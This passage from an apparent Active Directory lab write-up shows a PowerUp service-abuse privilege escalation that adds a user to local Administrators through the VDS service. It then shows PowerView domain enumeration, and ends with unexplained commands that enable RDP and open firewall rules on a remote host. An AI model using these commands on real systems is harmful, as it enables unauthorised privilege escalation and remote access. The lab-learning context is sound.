 i get back an interesting piece of information.

```sh
ServiceName : vds
Path : C:\Windows\System32\vds.exe
StartName : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'vds'
CanRestart : True
```

let's exploit this vulnerable service `VDS` to add our user `bilal` to the local Administrators group.

```sh
PS C:\bilal\AD> Invoke-ServiceAbuse -ServiceName vds -UserName Nebula\bilal
```

this exploits a vulnerability in `VDS` (Virtual Disk Service). it modifies the service to run a command [`net localgroup Administrators Nebula\bilal /add`] that will add my user to the Administrators group. this works because `VDS` runs with `SYSTEM` privileges. 

logging back in so the changes take effect, i can verify:

```sh
PS C:\bilal\AD> net localgroup Administrators

--------------------------------------
Administrator
Nebula\Domain Admins
Nebula\bilal
```

## enumeration

get the list of domain users.

```sh
PS C:\bilal\AD> Get-NetUser | select samaccountname
```

get the list of domain computers.

```sh
PS C:\bilal\AD> Get-netcomputer
```

get the list of domain groups.

```sh
PS C:\bilal\AD> Get-netgroup

Administrators
Users
Guests
Print Operators
Backup Operators
Replicator
Remote Desktop Users
Network Configuration Operators
Performance Monitor Users
Performance Log Users
Distributed COM Users
IIS_IUSRS
Cryptographic Operators
Event Log Readers
Certificate Service DCOM Access
RDS Remote Access Servers
RDS Endpoint Servers
RDS Management Servers
Hyper-V Administrators
```

[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> whoami;hostname nebula\uatadmin
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow 
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Test-NetConnection 172.16.10.1 -CommonTCPPort rdp
